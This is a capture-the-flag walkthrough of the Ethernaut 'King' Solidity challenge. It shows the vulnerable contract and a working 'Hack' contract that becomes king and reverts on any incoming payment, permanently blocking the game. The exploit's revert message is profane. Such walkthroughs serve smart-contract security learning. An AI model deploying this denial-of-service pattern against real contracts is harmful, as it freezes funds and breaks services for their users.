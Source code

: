 ## King

## The goal of this challenge is to stop the contract from updating the king everytime the receive function is called and for your address to stay the king until the very end

Solidity Code: 
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

If you take a look at the smart contract you can tell that by calling the receive function we will be able to become the king, but since the owner of the contract is deployer which is not our address, they can easily claim to be the king by just calling it again. Now we want to stay the king and break this contract, so our kingdom and our name stays on the blockchain FOREVER!!!

#### Approach

The approach we will take is fairly simple, first we will create a new contract Hack and create a payable constructor on it by passing in the address of the King contract we will be able to send a transaction to the King contract and call the receieve function. Now the way we will mess this game up is by not creating a single `receive` or a `fallback` function or create them and revert them into an error, this way we can call the function and become the king and we will block the contract from recieving further eth which will result into the second line of code in the `recieve` function being freezed and make us the KING of the contract forever.

 
- Go ahead and create the `Hack` contract and implement the above approach we explained

```typescript
contract Hack{
    constructor(address payable _target) payable {
        // we will fetch the prize and send more to be the king
        uint256 _prize = King(_target).prize();
        // now let's call the recieve function
        (bool sent, ) = _target.call{ value: _prize }("");
        require(sent, "Failed to send eth");
    }

    // we can either make the a receive or a fallback function and revert it or not make one at all
    // i'll make it to make the next king wannabe feel like shit
    receive() external payable {
        revert("HACKED YOU BITCH HAHAHA I'M THE KING FOREVER!!!");
    }

}
```

And this is it, you should now deploy the Hack contract and pass the address of the target and stay as the KING FOREVER!!!